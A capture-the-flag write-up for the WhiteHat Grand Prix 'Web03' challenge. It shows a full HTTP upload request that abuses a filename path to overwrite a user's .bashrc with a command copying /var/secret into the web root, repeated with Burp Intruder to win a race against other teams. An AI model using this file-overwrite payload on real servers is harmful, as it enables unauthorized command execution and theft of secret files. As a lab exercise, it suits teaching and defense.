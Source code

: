 Web03
Description: manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. Every 1 minute after service starts, he ssh into server to check /var/secret. Can you get it?  
Note: Player shouldn't Dos web01, you can get source code and run in local  
http://web01.grandprix.whitehatvn.com/  
Solves: A lot 
Points: 100  
Team: OpenToAll  

--------------------------------------

This... was a frustrating challenge. It involves racing against every other team  
for control of a file. The short description is: we're presented with a python  
SimpleHTTPServer that also supports an upload and must win the race for control of .bashrc or .profile.  
  
The slightly longer description:  
  
You can upload any file with the key 'file':

![upload](screenshots/upload.png)

The description tells us that a user "manhndd" SSH's in every 2 minutes. When a user
connects over SSH, typically they're using bash as their shell and will load the
files ~/.profile and ~/.bashrc on connect. We are able to overwrite these two files by changing  
the filename of the upload:  

```http
POST /SimpleHTTPServerWithUpload.py HTTP/1.1
Host: web01.grandprix.whitehatvn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://files.fm/
X-File-Upload: uploadingfiles
Content-Length: 228
Content-Type: multipart/form-data; boundary=---------------------------158661620315800
Origin: https://files.fm
Connection: close

-----------------------------158661620315800
Content-Disposition: form-data; name="file"; filename="/home/manhndd/.bashrc"
Content-Type: text/html
cp /var/secret /opt/dogs

-----------------------------158661620315800
```

![bashrc](screenshots/bashrc.png)

The issue is that every other team is going to be trying to stomp on these files.  
I put my requests into Burp Intruder and had it constantly stomp on ~/.profile  
and ~/.bashrc until the file /var/secret got copied into /opt (the root of the webserver).  
Once that happens, the flag is reachable at:  
http://web01.grandprix.whitehatvn.com/dogs
  
  
I don't have a copy of the flag anymore, but eventually a file named "dogs" appeared
in the index and the flag was WhiteHat{SHA1(file_contents)}
